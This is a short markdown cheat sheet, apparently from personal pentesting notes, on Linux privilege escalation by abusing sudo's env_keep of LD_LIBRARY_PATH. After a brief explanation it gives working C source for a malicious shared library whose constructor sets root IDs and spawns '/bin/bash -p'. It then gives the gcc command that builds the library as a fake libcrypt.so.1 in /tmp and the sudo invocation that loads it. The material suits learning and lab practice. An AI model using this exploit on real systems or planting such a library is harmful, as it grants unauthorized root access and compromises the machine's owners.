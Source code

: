 ## What is LD_LIBRARY_PATH?
LD_LIBRARY_PATH directs the dynamic link loader (ld.so) where to search for the dynamic shared libraries an application was linked against.

### LD_LIBRARY_PATH vs LD_PRELOAD
>LD_PRELOAD forces specific libraries to load before everything else to override functions.

>LD_LIBRARY_PATH controls where the linker searches for libraries, but it does not force load a specific library.

## How to ?
Pre-requisites:

- [x] NOPASSWD `sudo -l`  
- [x] env_keep += LD_LIBRARY_PATH `sudo -l`  
- [x] Binary loads `.so` libraries (`ldd`)  

Malicious `.so`
```
#include <stdio.h>
#include <stdlib.h>

static void hijack() __attribute__((constructor));

void hijack() {
        unsetenv("LD_LIBRARY_PATH");
        setresuid(0,0,0);
        system("/bin/bash -p");
}
```
Compile FILE
```
cd /tmp
gcc -shared -fPIC -o /tmp/libcrypt.so.1 /home/user/tools/sudo/library_path.c
```
Execute the compiled file
```
sudo LD_LIBRARY_PATH=/tmp <BINARY>
```
